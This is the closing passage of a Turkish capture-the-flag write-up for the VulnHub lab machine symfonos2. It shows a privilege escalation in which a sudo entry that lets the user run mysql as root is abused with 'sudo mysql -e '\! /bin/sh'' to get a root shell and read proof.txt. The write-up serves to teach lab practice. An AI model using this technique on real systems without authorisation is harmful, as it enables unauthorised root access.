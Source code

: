 ```terminal


id
uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
```

Sistem hakkında cronus kullanıcısı yetkileri ile tekrar bilgi toplamak için LinEnum betiği çalıştırılabilir. Ben genelde sistemde ilk olarak sudo yetkilerini kontrol ederim. Kontrol sonucunda mysql uygulamasının root yetkisi ile çalıştırılabildiği görülmektedir.

```bash
sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```

`sudo mysql -e '\! /bin/sh'` komutu kullanılarak root yetkisi ile terminal bağlantısı sağlanır. 

```bash
id
uid=0(root) gid=0(root) groups=0(root)
ls -lsa /root
total 28
4 drwx------  4 root root 4096 Jul 18  2019 .
4 drwxr-xr-x 22 root root 4096 Jul 18  2019 ..
0 lrwxrwxrwx  1 root root    9 Jul 18  2019 .bash_history -> /dev/null
4 -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4 drwxr-xr-x  3 root root 4096 Jul 18  2019 .config
4 drwxr-xr-x  3 root root 4096 Jul 18  2019 .local
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-------  1 root root 1444 Jul 18  2019 proof.txt
bash -i
bash: cannot set terminal process group (514): Inappropriate ioctl for device
bash: no job control in this shell
root@symfonos2:/opt/librenms/html#
```
Proof.txt dosyası okunarak makina çözümleme işlemi tamalanır.

{{< image src="/images/vulnhub/symfonos2/flag.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

